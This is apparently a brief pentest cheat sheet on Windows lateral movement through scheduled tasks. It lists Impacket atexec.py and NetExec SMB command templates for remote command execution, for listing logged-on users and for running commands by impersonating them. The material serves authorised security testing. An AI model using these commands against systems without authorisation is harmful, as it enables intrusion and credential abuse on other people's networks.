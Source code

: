 # Unix Shell

## 01 - Impacket

`$ atexec.py <username>:<password>@<IP> -silentcommand [-nooutput] "<command>"`

## 02 - NetExec

### 2.1 - Enumerate Logged-on Users

`$ netexec smb <IP> -u "<username>" -p "<password>" [--local-auth] --loggedon-users`

### 2.2 - Execute via Impersonation

`$ netexec smb <IP> -u "<username>" -p "<password>" [--local-auth] -M schtask_as -o USER=<logged-on_user> CMD=<command>`

---
## References

- [NetExec Wiki: Impersonate logged-on Users](https://www.netexec.wiki/smb-protocol/impersonate-logged-on-users)

- [Pentest Party: Lateral Movement Scheduled Task](https://pentest.party/notes/lateral-movement/scheduled-task)